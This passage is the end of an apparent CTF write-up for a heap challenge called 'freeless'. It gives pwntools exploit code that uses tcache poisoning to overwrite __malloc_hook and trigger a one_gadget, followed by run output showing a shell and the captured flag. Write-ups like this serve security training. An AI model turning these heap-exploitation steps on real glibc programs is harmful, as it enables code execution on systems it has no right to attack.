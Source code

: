 ```python
chunk_H = create(0x288)

edit(chunk_H, p64(libc.sym.one_gadget))

# Stage 6: Link 2 more chunks into 0x290 tcachebins for another write

chunk_I = create(0xA98)  # Shrink free space to (0x290)
edit(chunk_I, flat({0xA98: p64(0x2B1)}))
chunk_J = create(0x2A8)  # Link free space (0x290) into tcachebins

chunk_K = create(0xA98)  # Shrink free space to (0x290)
edit(chunk_K, flat({0xA98: p64(0x2B1)}))
chunk_L = create(0x2A8)  # Link free space (0x290) into tcachebins

# Stage 7: Perform tcache poisoning (__malloc_hook -> free)

edit(chunk_K, flat({0xA98: p64(0x291)}, p64(libc.sym.__malloc_hook)))
chunk_M = create(0x288)
chunk_N = create(0x288)

edit(chunk_N, p64(libc.sym.free + 8))  # +8 to prevent movaps segfault

# Stage 8: Trigger one_gadget

create(0x18)

io.interactive()
```

Running the above exploit yields us the flag.

```
❯ python xpl.py REMOTE
[+] Opening connection to freeless.quals.beginners.seccon.jp on port 9077: Done
[+] libc @ 0x7fd587d70000
[*] Switching to interactive mode
$ cat flag*
ctf4b{sysmalloc_wh4t_R_U_d01ng???}
```

Flag: `ctf4b{sysmalloc_wh4t_R_U_d01ng???}`

